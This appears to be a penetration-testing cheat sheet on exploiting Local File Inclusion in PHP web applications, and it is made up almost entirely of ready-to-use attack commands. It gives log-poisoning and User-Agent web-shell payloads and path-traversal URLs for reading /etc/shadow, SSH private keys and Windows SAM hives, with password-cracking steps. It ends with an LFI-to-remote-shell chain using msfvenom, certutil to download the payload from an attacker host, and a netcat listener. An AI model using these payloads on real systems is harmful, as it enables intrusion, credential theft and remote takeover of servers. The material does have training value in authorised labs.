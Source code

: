 # LFI
Goals:
- [ ]  Try to read internal/local files
- [ ]  Try to read webserver files

## Log Poisoning

If we can access the webserver logs it is possible to get RCE.

```bash
# Make the webserver log our php command below
# Using Curl
curl -A "<?php echo shell_exec($_GET['cmd']);?>" http://10-10-23-21.p.thmlabs.com/login.php

# Using Netcat
$ nc -nv 10.10.10.x 80
<?php echo shell_exec($_GET['cmd']);?>

# Access the logs and enter the command for example
http://10.10.10.x:80/index.php?page=C:/xampp/apache/logs/access.log&cmd=whoami
```

## Proc Environ Injection

```bash
curl http://mywebsite.com/index.php?view=../../../proc/self/environ
```

If we get a response like `HTTP_USER_AGENT="curl/7.57.0"</p>  </body>` , we can poison the User Agent header.
In Burp, change the request like this:

```bash
GET /index.php?view=../../../proc/self/environ&cmd=whoami
User-Agent: <?php echo shell_exec($_GET['cmd']);?>
```

## PHP Filter to read local files

```bash
http://10.10.10.x/index.php?page=php://filter/convert.base64-encode/resource=index
http://10.10.10.x/index.php?page=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php
```

## Windows System Files

```bash
# Usually %SYSTEMROOT% = C:\Windows
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system

1. Generate a hash file for John using pwdump or samdump2.
pwdump SYSTEM SAM > sam.txt
samdump2 SYSTEM SAM -o sam.txt

2. Then crack it
john --format=NT sam.txt
```

## Linux Files

```bash
http://url/index.php?page=../../../etc/passwd
http://url/index.php?page=../../../etc/shadow
http://url/index.php?page=../../../home/user/.ssh/id_rsa.pub
http://url/index.php?page=../../../home/user/.ssh/id_rsa
http://url/index.php?page=../../../home/user/.ssh/authorized_keys
# Read cmdline running processes
http://url/index.php?page=../../../proc/self/cmdline
http://url/index.php?page=../../../proc/1/cmdline
http://url/index.php?page=../../../proc/2/cmdline
...
# Quick script to test all processes
for i in $(seq 0 2000); do echo "$1:"; curl http://url/index.php?page=../../../proc/$i/cmdline --output -; echo; done

# Read processes
http://url/index.php?page=../../../proc/self/
```

More here: [https://github.com/D35m0nd142/LFISuite/blob/master/pathtotest.txt](https://github.com/D35m0nd142/LFISuite/blob/master/pathtotest.txt)

## Apache

```bash
# Apache configuration in Ubuntu
http://url/index.php?page=../../../etc/apache2/sites-available/000-default.conf
http://url/index.php?page=../../../etc/apache2/sites-available/monitors.htb.conf
```

## LFI to RCE to Shell Trick
This is a combination of LFI and SSRF to RCE.
```bash
1 - Check for RCE
Create a file in Kali
phpinfo.php
----------
<?php
phpinfo();
?>
----------

2 - Start Python Webserver
$ python3 -m http.server 80

3 - Use LFI to call Kali webserver
$ curl http://192.168.68.53:8080/site/index.php?page=http://192.168.49.68/phpinfo.php

4 - Get a Reverse Shell
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.68 LPORT=445 -f exe > shell.exe

Create another PHP file to be executed that will download our reverse shell:
pwn.php
-------
<?php
$exec = system('certutil.exe -urlcache -split -f "http://192.168.49.68/shell.exe" shell.exe', $val);
?>
-------

$ curl http://192.168.68.53:8080/site/index.php?page=http://192.168.49.68/pwn.php

Create a PHP file that will execute the reverse shell:
pwn-execute.php
-------
<?php
$exec = system('shell.exe', $val);
?>
-------

$ nc -lnvp 445
$ curl http://192.168.68.53:8080/site/index.php?page=http://192.168.49.68/pwn-execute.php
```